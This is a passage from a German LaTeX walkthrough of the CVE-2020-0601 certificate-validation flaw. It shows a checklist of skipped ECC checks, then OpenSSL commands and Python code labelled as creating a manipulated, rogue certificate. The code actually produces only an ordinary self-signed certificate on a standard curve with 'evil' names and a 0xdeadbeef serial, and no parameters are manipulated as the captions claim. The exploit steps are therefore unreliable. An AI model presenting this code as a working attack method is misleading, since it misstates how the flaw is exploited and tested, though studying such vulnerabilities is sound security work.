 \documentclass{article}
\begin{document}
\subsubsection{Schritt 2: Schwachstelle analysieren}

Das Validierungsskript zeigt die kritischen Unterschiede:

\begin{lstlisting}[caption=Vulnerable vs. Secure Validation]
Normal ECC Certificate Validation:
1. [YES] Verify certificate chain
2. [YES] Check certificate validity period
3. [YES] Validate certificate signature
4. [YES] Verify ECC parameters match standards
5. [YES] Ensure generator point is correct

CVE-2020-0601 Vulnerable Validation:
1. [YES] Verify certificate chain
2. [YES] Check certificate validity period
3. [YES] Validate certificate signature
4. [NO] SKIP ECC parameter validation!
5. [NO] SKIP generator point verification!
\end{lstlisting}

\subsubsection{Schritt 3: Manipuliertes Zertifikat erstellen}

\textbf{Methode 1: OpenSSL mit manipulierten Parametern}

\begin{lstlisting}[language=bash, caption=Rogue Key Generation]
# Private Key mit NIST P-256 erstellen
openssl ecparam -name prime256v1 -genkey -noout -out rogue_key.pem

# Zertifikat mit "evil" Subject erstellen
openssl req -new -x509 -key rogue_key.pem -out exploit_cert.pem \
  -days 365 -subj "/CN=evil.example.com/O=Evil Corp"
\end{lstlisting}

\textbf{Methode 2: Python-basierte Manipulation}

\begin{lstlisting}[language=python, caption=Zertifikat mit Exploit-Markern]
from cryptography import x509
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import ec
import datetime

# ECC-key generieren
private_key = ec.generate_private_key(ec.SECP256R1())

# Subject und Issuer mit "evil" Markern
subject = issuer = x509.Name([
    x509.NameAttribute(x509.NameOID.COMMON_NAME, u"evil.example.com"),
    x509.NameAttribute(x509.NameOID.ORGANIZATION_NAME, u"Evil Corp"),
])

# Zertifikat mit Exploit-Markern erstellen
cert = x509.CertificateBuilder().subject_name(
    subject
).issuer_name(
    issuer
).public_key(
    private_key.public_key()
).serial_number(
    0xdeadbeef  # Exploit-Marker
).not_valid_before(
    datetime.datetime.utcnow()
).not_valid_after(
    datetime.datetime.utcnow() + datetime.timedelta(days=365)
).sign(private_key, hashes.SHA256())

# Zertifikat speichern
with open("exploit_cert.pem", "wb") as f:
    f.write(cert.public_bytes(serialization.Encoding.PEM))
\end{lstlisting}
\end{document}
